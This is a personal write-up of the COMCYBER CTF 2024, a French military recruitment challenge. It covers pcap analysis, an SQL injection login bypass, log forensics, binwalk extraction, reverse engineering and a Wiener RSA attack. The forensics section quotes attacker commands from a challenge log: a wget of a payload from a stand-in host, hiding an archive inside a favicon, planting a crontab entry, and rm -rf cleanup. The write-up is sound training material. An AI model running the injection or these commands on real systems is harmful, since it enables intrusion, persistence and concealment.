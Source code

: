 ```yaml
---
title: "COMCYBER CTF 2024"
date: 2024-10-27 00:00:00 +0800
categories: [CTF]
tags: [CTF]
---
```


# COMCYBER CTF

The September 2 2024, the Commandement de la Cyberdéfense (ComCyber) made a CTF to recruit new people in "cyber sous-officiers"
The challenge was noted easy-medium

I'll talk about my experience in this post and how i manage to solve it, 

if you want to see the official writeup : https://blog.root-me.org/posts/writeup_comcyber/


## First Step : Network Analysis

In the first step of the CTF you need to download a .pcap file and analyze it using Wireshark 

There is a protocol called TELNET which you can filter in wireshark and scrolling through it you can read the first flag encoded,
You can get the first flag by decoding Base64 encoded string,

If you keep searching in the PCAP and follow the UDP Stream, you can acccess to 163.172.68.42.23:5000.

## Second Step : SQL Injection (lol)

The second flag is a login page, you can access it by doing ' or 1=1; -- 


## Third Step : Forensics

In the dashboard you can download a log file, once the file is download i made a small python script ton only get useful informations
```python
filename = 'debug.txt'

with open(filename, 'r') as fichier:
    lignes = fichier.readlines()
lignes_cmd = [ligne for ligne in lignes if 'CMD' in ligne]
for ligne in lignes_cmd:
    print(ligne.strip())
```

You have multiple result but the importants ones are : 


    echo 'efa3fb1f409aa622dddd7220ad6567580fb68b68' > /tmp/.password
    vim message.txt
    wget -O /dev/null https://attacker.site/m4lw3r3
    zip --password ($cat /tmp/.password) secret.zip message.txt m4lw3r3
    cat /app/static/assets/images/favicon.ico ./secret.zip > /app/static/assets/images/favicon.ico
    echo '2a202a202a202a202a20206563686f2027524d7b393835336561303861623734373265653865663237633631363239396461663530653330626439307d270a' | xxd -r -p | crontab -
    crontab -l
    rm -rf ./message.txt ./secret.zip ./m4lw3r3
    rm -rf /tmp/.password


You can get the third flag in Hexadecimal into the crontab


## Fourth Step : Binwalk Steganography

With binwalk you can extract files from the favicon, 

You have a zipfile inside the binwalk which you can extract using the password you found in the logs, 

Once it's extracted you have another flag, in the message.txt

There is also a m4lw3r3

## Fifth Step : Reverse Engineering

Now, you have a m4lw3r3 binary file and when you run it it ask for 2 inputs, [input1] [input2]

Using Ghidra you can reverse the file, the first input, is cut in 3 strings

## Sixth Step : RSA Cryptography

This part was the "hardest part" of the CTF, you need to find the input2, the program is using cryptographic functions for RSA encryptions, using the variables n, e and c, 

Once you have these variables you need to convert it from hexadecimal to decimal, i searched if there were differents vulnerabilities to crack the RSA, using Boneh Durfee or Wiener, but at the end you can do it with Wiener and RSACTFTOOL

When you have the string character you can go back to the dashboard and enable communication, here you have the last flag

## Conclusion

Overall the challenge was fun to do, but i wish it was a bit harder to do the login connection, i hope they will do more CTF like this, and i think it's a good idea to recruit based on CTF ! 

